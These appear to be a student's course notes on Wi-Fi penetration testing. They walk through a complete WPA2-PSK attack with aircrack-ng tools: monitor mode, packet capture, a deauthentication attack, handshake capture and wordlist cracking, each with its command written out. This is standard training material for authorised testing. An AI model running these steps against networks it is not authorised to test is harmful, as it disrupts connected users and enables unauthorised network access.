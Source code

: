 
#### WPA2 PSK

Pretty much what most everyone uses at home, small business.  PSK = Pre-Shared Key (i.e., password)
#### WPA2 Enterprise

This is what most enterprises use.  Uses RADIUS or some form of credentials to log into the network.

This is not covered so much in this course as the labs and setup would be an undertaking all it's own.  Definitely look at it.  Guy teaching this course learned it from a blog post.
#### Pentest Activities performed

Evaluating strength of PSK
Reviewing nearby networks
Assessing guest networks
Checking network access

#### The process

1: Place wireless card into monitor mode
	This allows us to sit and capture packets.
		`airmon-ng check kill`   - this will check for processes that will interfere with what we want to do and kill those processes.
		`airmon-ng start wlan0`   - wlan9 is the name of the interface (found with `iwconfig`)
		`airodump-ng wlan0mon`   - This will show all the nearby SSID's
2: Discover information about network
	Channel - Should read more on this.
	BSSID - MAC address of an access point
3: Select network and capture data
	`airodump-ng -c 6 --bssid <mac address> -w capture wlan0mon`
		This will capture from channel 6 with the BSSID of the needed mac address (copy and paste in).  It will then write what it grabs to the `capture` file and use interface `wlan0mon`.
4: Perform deauth attack
	`aireplay-ng -0 1 -a <mac address from the ap> -c <station mac address> wlan0mon`
		-0 means deauth attack.  1 means we're running it 1 time.  -a MAC address from the AP gather from the `airodump-ng` command.  `-c <station mac address>` you should have from the capture.  And then the interface `wlan0mon`
5: Capture WPA handshake
	You should have your scan running from step 3, you will see it pop up that it grabbed a handshake.
6: Attempt to crack the handshake
	`aircrack-ng -w wordlist.txt -b <BSSID> capture-02.cap`
		-w is your wordlist to check against.  -b is the BSSID.  capture-02.cap is the capture file (the one you got the message about grabbing the handshake)